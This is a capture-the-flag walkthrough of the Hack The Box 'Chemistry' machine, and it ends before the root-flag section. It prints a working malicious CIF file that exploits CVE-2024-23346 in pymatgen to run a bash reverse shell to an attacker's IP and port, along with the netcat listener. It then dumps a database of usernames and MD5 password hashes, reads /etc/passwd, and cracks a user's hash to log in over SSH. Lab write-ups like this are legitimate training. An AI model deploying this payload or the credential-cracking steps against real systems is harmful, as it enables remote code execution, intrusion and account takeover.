# Chemistry


|OS        |Linux      |
|---------:|:----------|
|Difficulty|Easy       |
|Points    |20         |
|Release   |19 Jan 2019|
|IP        |10.10.11.38|
|Link      |[Chemistry](https://app.hackthebox.com/machines/Chemistry)|

## Recon
Let's start by looking for open ports with an nmap scan.
```
nmap -T5 -A -O -sC -p - -vv -oA <FILE_NAME> 10.10.11.38
```
<p> The nmap options break out to the following:<br>

-T5: Set timing template (higher is faster), 5 is the max.

-A: Enable OS detection, version detection, script scanning, and traceroute.

-O: Enable OS detection.

-sC: Performs a script scan using the default set of scripts.

-p -: This option specifies which ports you want to scan and overrides the default. This variation is shorthand for 1-65535.

-vv: Increases the verbosity level, causing Nmap to print more information about the scan in progress.

-oA \<FILE\_NAME\> : Output in the three major formats at once.

```
# Nmap 7.95 scan initiated Thu Feb 27 05:17:04 2025 as: /usr/lib/nmap/nmap -T5 -A -O -sC -p - -vv -oA chemistry-nmap 10.10.11.38
Warning: 10.10.11.38 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.11.38
Host is up, received echo-reply ttl 63 (0.042s latency).
Scanned at 2025-02-27 05:17:07 CST for 102s
Not shown: 64793 closed tcp ports (reset), 740 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCj5eCYeJYXEGT5pQjRRX4cRr4gHoLUb/riyLfCAQMf40a6IO3BMzwyr3OnfkqZDlr6o9tS69YKDE9ZkWk01vsDM/T1k/m1ooeOaTRhx2Yene9paJnck8Stw4yVWtcq6PPYJA3HxkKeKyAnIVuYBvaPNsm+K5+rsafUEc5FtyEGlEG0YRmyk/NepEFU6qz25S3oqLLgh9Ngz4oGeLudpXOhD4gN6aHnXXUHOXJgXdtY9EgNBfd8paWTnjtloAYi4+ccdMfxO7PcDOxt5SQan1siIkFq/uONyV+nldyS3lLOVUCHD7bXuPemHVWqD2/1pJWf+PRAasCXgcUV+Je4fyNnJwec1yRCbY3qtlBbNjHDJ4p5XmnIkoUm7hWXAquebykLUwj7vaJ/V6L19J4NN8HcBsgcrRlPvRjXz0A2VagJYZV+FVhgdURiIM4ZA7DMzv9RgJCU2tNC4EyvCTAe0rAM2wj0vwYPPEiHL+xXHGSvsoZrjYt1tGHDQvy8fto5RQU=
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLzrl552bgToHASFlKHFsDGrkffR/uYDMLjHOoueMB9HeLRFRvZV5ghoTM3Td9LImvcLsqD84b5n90qy3peebL0=
|   256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIELLgwg7A8Kh8AxmiUXeMe9h/wUnfdoruCJbWci81SSB
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=2/27%OT=22%CT=1%CU=34934%PV=Y%DS=2%DC=T%G=N%TM=67C04A1
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Uptime guess: 31.769 days (since Sun Jan 26 10:51:42 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT     ADDRESS
1   5.82 ms 10.10.14.1
2   5.99 ms 10.10.11.38

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 27 05:18:49 2025 -- 1 IP address (1 host up) scanned in 105.23 seconds
```

| Port | Description | Version |
|:----:|:-----------:|:-------:|
|  22  |   OpenSSH   |  8.2p1  |
| 5000 |   Werkzeug  |  3.0.3  |

Looks like tcp ports 22 and 5000 are open. Usually port 22 is locked down, so let's start by looking at port 5000.

## Werkzeug
To investigate this one, we should open a web browser and head to <http://10.10.11.38:5000>



Which will display the Chemistry CIF Analyzer home page. Clicking around and poking at the code through developer mode did not reveal much other than the ability to register for or login into an account. Additionally, the attempt to complete a directory walk and sub-domain enumeration revealed no further landscape to attack. In this instance burp suite was also no help, so I decided to simply move forward with registering an account.



Completing the registration takes you immediately to the dashboard. 



Here we gain access to an upload option and a link to an example product. Which is where I started:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

So let's feed this back to the CIF analyzer:





This appears to be the molecular breakdown of a hydroxide ion, neat! But this is not why I am here today. Time for research, "A CIF file stands for "Crystallographic Information File," which is a standard text format used to store detailed information about a crystal structure, including the positions of atoms within a crystal lattice, commonly used in crystallography and materials science to share and analyze crystal data; essentially, it's a way to digitally represent a crystal's atomic arrangement." 
Searching for CVEs here is going to be awful so I took another approach, by focusing on the application itself "werkzeug". After some quick googling, I found the source on github <https://github.com/pallets/werkzeug>. The next objective is to find the documentation for version 3.0.3. From here we want to find the release history.





Now we know that version 3.0.3 went end of life "Aug 21, 2024". This means that we should be on the look out for exploits with a date after this date as they should still apply to this version. A little more googling using our new found information takes us to our first CVE and our next section.

## Initial Access or CVE-2024-23346
Eventually I came across this page [CVE-2024-23346](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). It's a lot confusing, but the best I can understand, there is a flaw in the code of one of the python libraries that was used in the creation of the tool. A carefully crafted cif file can be used to load additional python modules, including the module used to control the OS. Once that is loaded you can use it to execute whatever code you wish.

We can use the following as a template to draft our exploit.

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

We will adjust it to meet our needs:

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<IPADDRESS>/<PORT> 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
``` 

Do not forget to change the "\<IPADDRESS\>/\<PORT\>" section to meet your needs. \<IPADDRESS\> will match your ip address and \<PORT\> will match your listening port. Save this as a ".cif", but before uploading, it would be a good idea to start up your listener. To accomplish this open a terminal and ensure that netcat is installed. My typical use is:

```
nc -lvnp <PORT>
```
<p> The nc options break out to the following:<br>

-l: listen mode, for inbound connects

-v: verbose

-n: numeric-only IP addresses, no DNS

-p \<PORT\>: local port number

The "\<PORT\>" should match the "\<PORT\>" from your .cif with your carefully crafted exploit in it. I saved mine as vuln.cif, please replace that in my example with whatever you named your file. With everything in place, let's go!

Step 1 - upload the payload



Step 2 - click the view button



Step 3 - say, "I'm in"

## Getting the user flag

If you would like a shell that more closely resembles bash, you can run:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
``` 



It's going to look a little weird but you'll at least have most of your terminal functions now. Back to business now.
Running the whoami command reveals that we are the user app. Next we should run the pwd command to see what directory we are in, which is revealed to be /home/app. The next command we should run is ls -lah. Unfortunately this is where a lot of exploits get dropped, so it's going to be busy. I went through each file and folder one at a time. The instance directory seemed to have the most interesting file, which is the database.db file. Let's see if we can take a look at it...
The first thing we're going to do is run the file command on the database.db file.



Looks like it's an SQLite3 file. Well that's good news, we have the sqlite3 package installed and the internet to figure out how to use it.



Looks like we got a lot of usernames and hashed passwords.

```
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|konker|d6d67d66a522b447ae2640d8749f0136
16|hacker|d6a6bc0db10694a2d90e3a69648f3a03
17|sa|25f9e794323b453885f5181f1b624d0b
18|hex|51d55a77a4a6f4a1cbd7044b1556e32d
19|w|f1290186a5d0b1ceab27f4e77c0c5d68
20|haxorpwnd|482c811da5d5b4bc6d497ffa98491e38
21|username|5f4dcc3b5aa765d61d8327deb882cf99
```

Next lets grab a copy of the \/etc\/passwd file to see if any of these are worth cracking.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```
Looks like "rosa" is the only name on both list, so let's try to crack that one. [CrackStation](https://crackstation.net) here I come.



With that information we can now ssh in as rosa.




With that, we have the user flag. Let's gooooo!

## Getting the root flag

